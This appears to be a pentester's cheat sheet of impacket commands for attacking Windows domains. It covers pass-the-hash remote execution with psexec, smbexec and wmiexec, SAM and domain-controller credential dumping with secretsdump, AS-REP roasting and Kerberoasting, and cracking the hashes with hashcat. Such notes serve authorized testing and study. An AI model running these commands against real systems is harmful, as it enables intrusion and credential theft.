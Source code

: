 # impacket guide

## psexec | smbexec | wmiexec

```bash
impacket-psexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
impacket-smbexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
impacket-wmiexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
```

## secretsdump (dumps SAM)

```bash
impacket-secretsdump DOMAIN/USER:['PASS']@IP [-just-dc] [just-dc-user USER]
# -just-dc: if IP is a domain-controller
```

## GetNPUsers

AS-REP Roasting (users with Kerberos pre-authentication disabled)

```bash
impacket-GetNPUsers DOMAIN/ -usersfile user.txt [-format hashcat] [-outputfile hash]
impacket-GetNPUsers DOMAIN/USER -no-pass -dc-ip IP [-format hashcat]
impacket-GetNPUsers -dc-ip IP -request DOMAIN/
```

## GetUserSPNs

Requesting TGTs for services to get all hashes

* msf: `use auxiliary/gather/get_user_spns`

```bash
impacket-GetUserSPNs DOMAIN/USER -hashes LM:NTLM_HASH -dc-ip DC_IP -request -outputfile hashes.kerberoast
impacket-GetUserSPNs DOMAIN/USER:['PASS'] -dc-ip DC_IP -request
# hashcat -m 13100
```
